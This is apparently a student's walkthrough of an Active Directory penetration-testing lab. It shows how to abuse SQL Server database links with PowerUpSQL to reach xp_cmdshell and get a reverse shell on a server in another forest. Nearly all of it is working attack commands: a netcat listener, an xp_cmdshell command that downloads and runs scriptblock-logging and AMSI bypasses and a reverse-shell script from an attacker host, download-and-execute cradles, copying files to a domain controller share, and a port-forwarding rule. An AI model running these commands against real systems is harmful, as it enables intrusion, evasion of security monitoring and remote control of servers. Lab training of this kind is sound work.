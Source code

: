 

### objective 22:

- Get a reverse shell on a SQL server in eurocorp forest by abusing database links from dcorp-mssql.

```powershell

####ImportPowerUpSQL in memory
Import-Module C:\AD\Tools\PowerUpSQL-master\PowerupSQL.psd1

####Enumerate all SQL server in domain and try to connect using current user privileges.
Get-SQLInstanceDomain | Get-SQLServerinfo -Verbose


####Crawls database links automatically..
Get-SQLServerLinkCrawl -Instance dcorp-mssql.dollarcorp.moneycorp.local -Verbose


####If xp_cmdshell is enabled It is possible to execute commands
Get-SQLServerLinkCrawl -Instance dcorp-mssql.dollarcorp.moneycorp.local -Query "exec master..xp_cmdshell 'whoami'"


####Netcat listner for reverse shell..
C:\AD\Tools\netcat-win32-1.12\nc64.exe -lvp 443


####Bypass AMSI and Scriptblock logging and execute our reverse shell script on target server..
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query 'exec master..xp_cmdshell ''powershell -c "iex (iwr -UseBasicParsing http://172.16.100.1/sbloggingbypass.txt);iex (iwr -UseBasicParsing http://172.16.100.1/amsibypass.txt);iex (iwr -UseBasicParsing http://172.16.100.1/Invoke-PowerShellTcpEx.ps1)"''' -QueryTarget eu-sql

```


PREREQUISITE Cradles:

```powershell
iex((New-Object Net.WebClient).DownloadString('http://172.16.99.11/PowerView.ps1'))
```

```powershell
iex (iwr http://<IP Address>/powerview.ps1 -UseBasicParsing)
```

```powershell
iwr http://<IP Address>/<fileName> -OutFile <File Path>
```

```powershell
echo F | xcopy <FileName> \\dcorp-dc\C$\Public\<FileName>
```

##Route Set command
```powershell
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.6
```
